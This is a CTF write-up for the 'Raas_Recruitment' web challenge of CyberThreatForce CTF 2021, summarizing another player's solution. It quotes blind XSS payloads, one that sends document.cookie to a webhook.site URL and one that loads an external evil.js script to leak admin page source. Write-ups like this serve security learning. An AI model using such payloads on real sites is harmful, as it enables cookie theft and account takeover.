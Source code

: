 
# CyberThreatForce CTF 2021

## Web Challs

### Raas_Recruitment
- [ ] Was Solved By Me
#### Points - 180 -> 410
#### Description:
We found the **APT403** recruitment site.
Tried to find a way to exploit their website !

**[](https://recruitment.cyberthreatforce-ctf.com/)**


#### Write-Up - MY OWN
 When entering the Website. We're welcomed with
![](https://i.imgur.com/kMjLk9v.png)
After registration We get a message that the  review team will review the application
![](https://i.imgur.com/qTFY32g.png)
- The site also uses `Content-Disposition: multipart/form-data;`, which is interesting 
- The webpage uses newest Apache, so no exploits for CVEs
![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/2.png)
- **There was Hint Given By Administrators** - **It's not SQLi, try different Injection ^^**
	- Not very useful Hint to be honest

#### Notes After The Competition - NOT MY OWN SOLUTION
##### Finding the XSS and Exploiting It
- There actually was a SQL Injection, which was not planned by the authors
- The vulnerability was indeed in `Content-Disposition multipart body`
	- W0rty tried injecting -   `">'>< script>fetch("[https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c="+document.cookie](https://webhook.site/670142c2-94c0-4669-a9ce-6539d860ce4c/?c=%22+document.cookie))< /script>`, which sends the request to his WebHook.
		- Testing XSS with Blind Payloads is way better then just executing `alert()`, because most web pages sanitizes or filters out it. Amazing!
		![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/3.png)
		- The last parameter `name=radio` triggered the XSS payload.
	- W0rty tried to leak /admin/index.php source code with this Blind XSS with the following script
	- ![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/4.png)
		- But the website was limiting the size of his payload
			- He then put the payload into his VPS, and with this payload ->   `">'>< script src="https://midnightflag.fr/evil.js">< /script>` he invoked this code
				- This though didn't work either. It seemed like the index.php source code that he wanted to extract was too big, so he then used `substr` function to select part of the HTML page:
				-  ![alt](https://github.com/W0rty/WU-CyberThreatForce/raw/main/Images/5.png)
					-  This time it succeeded, and he found out from the source code, that the page has a hidden web-page, called `/bingvxyyaknprxtgwexgldwdcrcqrfacDEV/`
